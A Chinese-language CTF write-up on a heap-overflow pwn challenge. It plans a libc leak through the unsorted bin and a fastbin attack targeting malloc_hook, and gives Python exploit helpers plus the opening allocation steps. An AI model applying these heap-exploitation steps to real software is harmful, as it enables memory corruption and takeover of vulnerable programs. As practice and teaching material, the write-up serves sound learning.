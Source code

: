 
## 漏洞利用思路
从上面的内容可以看出，主要的漏洞是任意长度堆溢出。由于该程序几乎所有保护都开启了，所以我们必须要有一些泄漏才可以控制程序的流程。基本利用思路如下：

+ 利用 unsorted bin 地址泄漏 libc 基地址。（用unsortedbin的原因之后再说）
+ 利用 fastbin attack中的Arbitrary Alloc技术将chunk 分配到 malloc_hook 附近。

## 1、leak libc addr
### 1-1、模仿程序的功能
要做pwn中的堆题，首先肯定要写出可以自动化发送的脚本：

```c
def alloc(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size: ")
    p.sendline(str(size))
def fill(idx, content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Size: ")
    p.sendline(str(len(content)))
    p.recvuntil("Content: ")
    p.send(content)
def free(idx):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
def dump(idx):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvline()
    return p.recvline()
```

这4个函数分别对应程序的四个主要功能，这里就不多说了。

### 1-2、申请5个chunk
由于我们希望使用 unsorted bin 来泄漏 libc 基地址，**<font style="color:#F5222D;">所以必须要有 chunk 可以被链接到 unsorted bin 中，所以该 chunk 不能被回收到 fastbin chunk，也不能和 top chunk 相邻。因为后者在不是fastbin 的情况下，会被合并到 top chunk 中。</font>**具体设计如下：

```c
#paylaod：
alloc(0x10)#index0
alloc(0x10)#index1
alloc(0x10)#index2
alloc(0x10)#index3
alloc(0x80)#index4
```
